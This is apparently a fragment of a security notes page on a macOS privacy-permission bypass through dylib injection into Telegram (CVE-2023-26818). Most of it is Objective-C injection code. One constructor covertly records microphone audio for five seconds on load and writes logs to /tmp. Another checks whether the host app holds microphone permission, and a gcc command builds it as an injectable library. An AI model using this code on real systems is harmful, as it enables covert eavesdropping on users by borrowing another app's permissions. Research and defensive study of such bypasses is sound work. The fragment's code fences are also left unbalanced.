 ```

- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
      fromConnections:(NSArray<AVCaptureConnection *> *)connections
                error:(NSError *)error {
    if (error) {
        NSLog(@"Recording failed: %@", [error localizedDescription]);
    } else {
        NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
    }
    NSLog(@"Saved to %@", outputFileURL.path);
}

@end

__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {

    freopen("/tmp/logs.txt", "a", stderr);
    AudioRecorder *audioRecorder = [[AudioRecorder alloc] init];

    [audioRecorder startRecording];
    [NSThread sleepForTimeInterval:5.0];
    [audioRecorder stopRecording];

    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
    fclose(stderr); // Close the file stream
}
```
```

**ObjectiveC - Check**
Check if the app has access to the mricrophone.

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// From https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4
// gcc -framework Foundation -framework AVFoundation -dynamiclib MicTest.m -o MicTest.dylib

@interface MicrophoneAccessChecker : NSObject
+ (BOOL)hasMicrophoneAccess;
@end
@implementation MicrophoneAccessChecker
+ (BOOL)hasMicrophoneAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to microphone granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to microphone denied.");
        return NO;
    }
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    [MicrophoneAccessChecker hasMicrophoneAccess];
}
```
```
```